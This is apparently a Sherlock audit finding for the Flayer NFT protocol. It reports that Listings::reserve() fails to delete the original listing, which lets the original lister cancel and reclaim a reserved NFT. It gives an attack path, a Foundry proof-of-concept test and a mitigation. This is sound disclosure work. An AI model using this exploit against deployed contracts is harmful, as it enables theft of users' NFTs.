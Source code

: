 Large Mauve Parrot

High

# `Listings::reserve()` doesn't delete the old listing

### Summary

_No response_

### Root Cause

The [Listings::reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690) creates a protected listing from a normal listing, but doesn't delete the normal listing. This leads to a state where both a normal listing and a protected listing exists for the same NFT. This allows the owner of the "old" normal listing to still claim the NFT via [Listings::cancels()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414), stealing it from the new owner and resulting in a protected listing whose NFT is not in the locker.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Eve lists a rare NFT via [Listings::createListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L130)
2. Alice wants the NFT but doesn't have funds to pay it now, so she reserves via [Listings::reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690)
3. A new protected listing for the NFT is created, but the normal listing is not deleted. The owner of the normal listing is still Eve
4. Eve calls [Listings::cancelListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414) on the normal listing, retrieving her NFT

At this point in the protocol exists a protected listing whose owner is Alice for an NFT that's not in the locker anymore.

### Impact

Anybody calling [Listings::reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690) can get their NFT stolen by the user that originally listed it for sale.

### PoC

To copy-paste in `Listings.t.sol`:
```solidity
function test_RelistNoDelete() public {
    address _lister = makeAddr("alice");
    address payable _relister = payable(makeAddr("bob"));
    uint _tokenId = 10;
    ICollectionToken token = locker.collectionToken(address(erc721a));
    listings.setProtectedListings(address(protectedListings));
    erc721a.mint(_lister, _tokenId);

    //Approvals
    vm.prank(_relister);
    token.approve(address(protectedListings), type(uint256).max);

    // Create our listings
    vm.startPrank(_lister);
    erc721a.approve(address(locker), _tokenId);
    erc721a.approve(address(listings), _tokenId);
    token.approve(address(listings), type(uint256).max);

    uint[] memory tokenIds = new uint[](1);
    tokenIds[0] = _tokenId;

    IListings.CreateListing[] memory _listingsA = new IListings.CreateListing[](1);
    _listingsA[0] = IListings.CreateListing({
        collection: address(erc721a),
        tokenIds: tokenIds,
        listing: IListings.Listing({
            owner: payable(_lister),
            created: uint40(block.timestamp),
            duration: 7 days,
            floorMultiple: 120
        })
    });
    listings.createListings(_listingsA);
    vm.stopPrank();


    // Relister reserves the NFT
    vm.startPrank(_relister);
    uint startBalance = 1 ether;
    deal(address(token), _relister, startBalance + 1e18);
    token.approve(address(listings), type(uint256).max);
    listings.reserve({
        _collection: address(erc721a),
        _tokenId: _tokenId,
        _collateral: 0.4 ether
    });
    vm.warp(block.timestamp + 10); //avoid wrong checkpoint `index` bug
    vm.stopPrank();

    //Lister successfully cancel lthe listing and get NFT
    vm.prank(_lister);
    listings.cancelListings(address(erc721a), tokenIds, false);

    //Protected listing can't be unblocked because the NFT is not in the locker
    vm.prank(_relister);
    protectedListings.unlockProtectedListing(address(erc721a), _tokenId, true);
}
```

### Mitigation

In [Listings::reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690) delete the old listing.